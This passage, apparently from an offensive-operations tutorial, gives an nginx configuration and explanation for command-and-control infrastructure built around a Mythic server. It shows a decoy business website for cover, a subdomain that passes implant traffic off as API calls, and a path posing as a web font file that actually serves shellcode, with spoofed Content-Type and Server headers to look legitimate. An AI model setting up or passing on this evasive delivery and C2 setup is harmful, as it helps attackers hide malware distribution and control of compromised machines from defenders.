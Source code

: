 ```nginx
    include /etc/letsencrypt/options-ssl-nginx.conf;
    ssl_dhparam /etc/letsencrypt/ssl-dhparams.pem;

    location /assets/fonts/manrope-light.ttf {
        proxy_pass https://10.0.0.2:7443/direct/download/01fd417f-95e3-42dd-a26c-98d5262ac37d;
        proxy_ssl_verify off;
        proxy_set_header Host $host;
        proxy_set_header X-Real-IP $remote_addr;
        proxy_set_header X-Forwarded-For $proxy_add_x_forwarded_for;

        # Optional headers to simulate legit service
        proxy_hide_header Content-Disposition;
        add_header Content-Type "application/font-ttf";
        add_header X-Powered-By "PHP/8.1.9";
        add_header Server "cloudflare";
    }
}

# Redirect all HTTP traffic to HTTPS
server {
    listen 80;
    server_name www.example-business.com;
    return 301 https://$host$request_uri;
}

server {
    listen 80;
    server_name api.example-business.com dl.example-business.com;
    return 301 https://$host$request_uri;
}
```

The configuration creates three distinct services that work together. The main decoy site at www.example-business.com proxies all traffic to our WordPress container, so anyone visiting the main domain sees a legitimate business website. This is your front-facing presence that provides cover for the real infrastructure.

The C2 communications happen through api.example-business.com, which is where the real magic occurs. All traffic to this subdomain gets forwarded directly to our Mythic server on the internal network. Our implants will connect here, but to external observers it just looks like API calls to a business service.

For payload hosting, dl.example-business.com handles the actual malware downloads. The specific path `/assets/fonts/manrope-light.ttf` looks like a legitimate web font file, but it's actually serving our shellcode from Mythic's file hosting service. The font file disguise is particularly effective because font downloads are extremely common and rarely scrutinized.

Everything gets redirected to HTTPS automatically, which maintains our legitimate appearance while also encrypting all the actual C2 traffic flowing through the infrastructure.

The beauty of this setup is that each subdomain serves a different purpose, but they all use the same SSL certificate and appear to be part of the same legitimate website infrastructure.
